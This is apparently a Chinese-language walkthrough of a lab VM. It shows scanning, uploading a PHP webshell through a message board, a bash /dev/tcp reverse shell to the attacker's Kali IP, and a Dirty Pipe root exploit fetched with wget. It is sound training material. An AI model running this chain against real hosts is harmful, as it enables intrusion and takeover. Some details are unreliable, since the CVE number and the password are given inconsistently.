# 1、信息收集
## (1)主机发现 :先在kali中扫描局域网,找到靶机IP 
## `arp-scan -l`(sudo)
### -l(localnet)

## `netdiscover -r 192.168.1.0/24`(动态刷新)
### -r(range)


## (2)端口与服务扫描 :对目标IP进行全端口扫描并探测服务版本
## `nmap -p- -sV -T4 192.168.254.141`
### -p- :扫描全端口(1-65535)
### -sV :探测端口上运行的服务及其版本号
### -T4 :扫描速度(激进速度)


## 在80端口找到username(Cypher)

## 81端口发现一个ssh登录框


## (3)Web目录扫描
## `gobuster dir -u http://192.168.254.129 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt`
### gobuster :Go语言编写的高性能目录扫描器
### dir :执行目录/文件枚举模式(还有dns、vhost等模式)
### -u(URL) :通常要加上协议头(http),不然它不知道要用http还是https协议
### -w(Wordlist) :字典;这里指定了kali自带的dirbuster中型字典,大概22万条常见的目录和文件名
### -x(Extensions) :扩展名;比如字典里有一行 admin，gobuster 不仅会请求 http://192.168.254.141/admin，还会自动帮你请求 http://.../admin.php、http://.../admin.html 和 http://.../admin.txt
## `gobuster dir -u http://192.168.254.141 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 50 -b 403,404` :多线程加速与屏蔽无用状态码


## graffiti.txt

## graffiti.php,跳转到一个留言板


# 2、web渗透,获取shell

## (1)寻找漏洞
## 试着上传些什么,发现显示在页面,查看源码


## (2)写入webshell
## 用burpsuite抓包,修改为`message=<?php system($_GET['cmd']); ?>&file=shell.php`
### 将php上传到shell.php,因为是用PHP解析器解析


## 访问`192.168.254.141/shell.php?cmd=id`,写入成功


## (3)获取交互式shell
## kali :`nc -lvnp 4444`
### -l(listen) :监听模式;告诉 nc：“不要主动去连别人，留在原地，等着别人来连你
### -v(Verbose) :详细模式;当有目标连进来时，它会在屏幕上打印出目标的 IP 和端口信息
### -n(Numeric) :数字格式;告诉 nc：“如果目标传过来一个域名，千万不要去查 DNS。直接用纯 IP 数字，省时间
### -p(port) :指定你要监听的具体端口号（这里选的是 4444，你也可以换成 5555、8888 等）
## 浏览器 :`http://192.168.254.141/shell.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.254.129/4444%200%3E%261%22` (bash -c "bash -i >& /dev/tcp/192.168.254.129/4444 0>&1") :URL编码;前面那个IP是靶机IP,后面那个IP是kaliIP
### bash -c "..." :告诉系统启动一个Bash进程,并且执行引号里面的字符串作为命令
### bash -i :启动一个交互式的bash终端
### >& /dev/tcp/192.168.254.129/4444 :Linux Bash 内置的一个极其强大的特性（不需要借助 nc 或 python 等工具），它把网络连接映射成了文件;向 192.168.254.129（你的 Kali 机器）的 4444 端口发起 TCP 连接，并且把标准输出（stdout）和标准错误（stderr）都发送到这个连接上
### 0>&1 :把标准输入(stdin,文件描述符0)重定向到标准输出(文件描述符1)

# 3、权限提升

## (1)检查内核版本(5.10.0-9-amd64) :对应CVE-2022-0827(Dirty Pipe)提权漏洞;该漏洞影响 Linux 5.8 到 5.16.11 之间的版本


## (2)利用Dirty Pipe提权
## exp(https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit.git ) :这个版本的 EXP 利用 Dirty Pipe 漏洞的原理，是直接把 /etc/passwd 文件里的 root 密码哈希，强行改写成了一个已知的密码（也就是 aaron）


## 下载到kali中得到exploit.c(源码)、compile.sh(自动编译脚本)

## 将exp里的exploit.c源码静态编译为dp文件(如果报错说找不到静态库，先执行 sudo apt install libc6-dev 安装一下)
## `gcc -O2 --static -o dp exploit.c`
### gcc(GNU C Compiler)
### -O2(Optimization Level 2) :优化级别2
### --static :静态链接
### -0(Output) dp :指定输出文件的名字


## 在kali放置exp的目录开启一个简易的http服务,方便靶机下载exp
## `python3 -m http.server 8888`


## 下载exp到靶机的/tmp目录,在靶机运行下面命令
## `wget http://192.168.254.129:8888/dp -O /tmp/dp`


## 赋予执行权限并运行
## `chmod +x /tmp/dp`
## /tmp/dp


## 最后的报错只是因为它在尝试自动调用 system() 弹出一个 root shell 时失败了（通常是因为当前环境变量或非交互式终端的限制），但这完全不影响它已经修改了密码

## `who(w)` :查看当前在线所有用户
## `su root`;pwd:`arron` 
## `id`
## `cd /root`
## `ls -la`
## `cat FLAG.txt`